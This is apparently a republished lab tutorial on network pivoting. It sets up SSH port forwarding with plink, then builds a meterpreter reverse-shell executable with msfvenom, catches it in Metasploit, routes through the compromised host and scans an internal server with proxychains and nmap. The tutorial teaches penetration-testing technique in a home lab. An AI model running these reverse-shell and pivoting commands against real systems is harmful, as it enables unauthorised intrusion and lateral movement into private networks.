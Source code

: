 ##### From https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/
#### Description:
This tutorial is about “moving” through a network (from machine to machine). We use a compromised host as our pivot to move through the network.  This tutorial has a lack of screenshots. You can create the screenshots yourself as you follow this tutorial 😉

#### Prerequisites:
You need (at least) three machines for this tutorial. I suggest using VirtualBox or VMware machines.

The Attacking Box (Kali Linux)
* IP: 192.168.1.16
* Netmask: 255.255.255.0
* Gateway: 192.168.1.1

The pivot host (Windows XP)
Dual-Homed – Configure 2 Network Cards in VirtualBox!
* FIRST IP: 192.168.1.30
* Netmask: 255.255.255.0
* SECOND IP: 10.0.0.2
* Netmask: 255.0.0.0

Web server (IIS, Apache – Windows or Linux, whatever u like) -> I use a Windows 2012 server
* IP: 10.0.0.10
* Netmask: 255.0.0.0

There is no need to use a gateway!


#### Problem:
We want to reach the web server from the attacking box. But how can we do that? Both machines are in different subnets. 

Try to surf to the web server from the Kali-Box: http://10.0.0.10

This does not work!

(If you do not understand the problem at this point I highly suggest you leave this tutorial and get comfortable with network topics such as private network ranges and subnetting)

#### Solution:
We use the dual-homed machine to pivot to the web server!

#### Scenario 1 (Remote Port Forwarding):
We connect to the Windows XP machine using “rdesktop” on the Kali Box. We don´t attack the pivot here. We have the credentials.
	
  1. Connect to the Windows XP machine from your Kali Box: rdesktop 192.168.1.30
  2. Download “plink.exe” from the Kali box to the Windows XP machine
(plink.exe can be found on Kali -> “/usr/share/windows-binaries/plink.exe “-> Copy “plink.exe” to you web server root and start apache on Kali. Now you can download “plink.exe” on the Windows XP machine)
  3. Open a command prompt on the Windows XP machine and navigate to the place where you have saved “plink.exe”
  4. Start SSH Daemon on Kali-Box. /etc/init.d/ssh start
  5. Run the following command on the Windows XP machine:

plink 192.168.1.16 -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80
(Login with your SSH credentials on Kali)

#### Try to reach the web server from your Kali Box the following way:
http://127.0.0.1:4444 -> Voila: It works! You can see the web server from 10.0.0.10!

OK, but what does the command do? Let’s split the command to see what is going on:

plink 192.168.1.16 -P 22 -> Tunnel the traffic using SSH on Kali-Box 192.168.1.16
-C -R -> -C is compression. -R tells plink to do a “Remote Port Forwarding”
127.0.0.1:4444:10.0.0.10:80 -> Local Host:Local Port:Remote Client:Remote Port (Local from the pivots perspective!)

#### Read the command backward:
“We bind the remote clients port 80 (10.0.0.10:80) to our local port (127.0.0.1:4444) and tunnel the traffic to 192.168.1.16 using SSH (192.168.1.16 -P 22)


#### Scenario 2 (Local Port Forwarding):
We want to connect to our Windows XP machine using Remote Desktop Protocol (RDP). The Port is 3389.
There is an Inbound Firewall rule that blocks connections to this port. Let´s pretend that we are not able to change the firewall settings.

(Create a specific rule on the XP machine or just imagine that RDP is not reachable on Port 3389)
The problem is: We still want RDP connection!

We simply redirect the local port 3389 ,let´s say, to port 3390.

On the Windows XP machine:  plink 192.168.1.16 -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389
(-L -> Local Port Forwarding)

Read the command backward to understand what is going on:

On the Kali Box:
rdesktop 192.168.1.30:3390 -> Voila, there is our Remote Desktop Session!

Sweet!


#### Scenario 3 (Dynamic Port Forwarding):
You are familiar with the concepts of local and remote port forwarding from Scenario 1 and Scenario 2.
Now let’s do some Hacking!
We want to Nmap the server on 10.0.0.10 from our attacking Kali-Box. Let´s attack the pivot machine to get a meterpreter shell from it.
(Generate a standalone executable meterpreter reverse shell (.exe file) on your Kali box, execute it on the pivot and catch it on Kali using Metasploit)
1. Generate a Stand-Alone meterpreter executable:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.16 LPORT=443 -f exe -o meterpreter.exe

2. Copy meterpreter.exe to Kalis webroot
  
3. Download meterpreter.exe to the XP machine
  
4. Setup the listener on the Kali Box:
    * msfconsole
    * use exploit/multi/handler
    * set PAYLOAD windows/meterpreter/reverse_tcp
    * set LHOST 192.168.1.16
    * set LPORT 443
    * exploit
  
5. Double-Click on meterpreter.exe and run it on the XP Machine
  
6. Now you have the meterpreter connection from the XP Machine on your Kali Box!
  
7. Type “ifconfig” and see that this host is a dual homed machine.
  
8. Type “background” to background the session
  
9. Now we have to add a route to our metasploit session 1:
route add 10.0.0.0 255.0.0.0 1
(1 is the session number in metasploit)
  
10. Verify that the route was added successfully:
route print
  
11. Now configure socks proxy in metasploit and start it:
  * use auxiliary/server/socks4a
  * set SRVHOST 127.0.0.1
  * run
(You can use default settings for SRVHOST 0.0.0.0 as well. The port is important. Default is Port 1080)
  
12. Configure proxy chains on the Kali Box:
  * vi /etc/proxychains.conf
Edit the ProxyList at the bottom of the file:
  * socks4   127.0.0.1   1080
The configuration has to be the same as in metasploit
  
13. Run you nmap scan using proxychains:
Some Tips:
You should use the options -Pn (assume that host is up) and -sT (TCP connect scan) with nmap through proxychains! 
Using other scan types, TCP Syn scan for example, will not work!

proxychains nmap -Pn -sT -p445,3389 10.0.0.10
(These two ports should be opened. If you see “denied” in the nmap result something went wrong with the proxy configuration or the route was added in the meterpreter session. 

Background the meterpreter session and then add the route in metasploit for the meterpreter Session! See Steps 9-11)
  
14. Get Remote Desktop
  * proxychains rdesktop 10.0.0.10
  
15. Surf to 10.0.0.10
  * proxychains firefox 10.0.0.10

